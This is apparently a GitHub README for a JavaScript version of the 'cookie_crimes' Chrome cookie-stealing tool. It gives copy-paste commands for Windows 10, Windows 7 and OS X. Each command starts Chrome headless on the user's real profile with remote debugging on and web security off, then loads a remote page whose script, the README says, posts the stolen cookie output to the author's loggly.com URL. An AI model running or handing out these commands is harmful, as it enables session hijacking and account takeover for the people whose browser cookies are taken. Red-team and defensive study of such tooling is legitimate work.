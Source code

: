 This is a javascript implementation of the [cookie_crimes tool](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password) by @mangopdf

Running the command below will run the javascript found in the *index.html* file of this repo which has been setup using Github Pages. It is currently harcoded to post the script output to my own loggly.com URL. Host it on your own github to control the script completely and enable GitHub pages in your repository settings to serve the page as an HTML file.

# Windows

## Windows 10

```"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir=%localAppData%"/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/TestCC/```

## Windows 7

```%localAppData%"\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir=%localAppData%"/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/TestCC/```

# OS X

```"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="$HOME/Library/Application Support/Google/Chrome" --disable-plugins https://clr2of8.github.io/TestCC/```
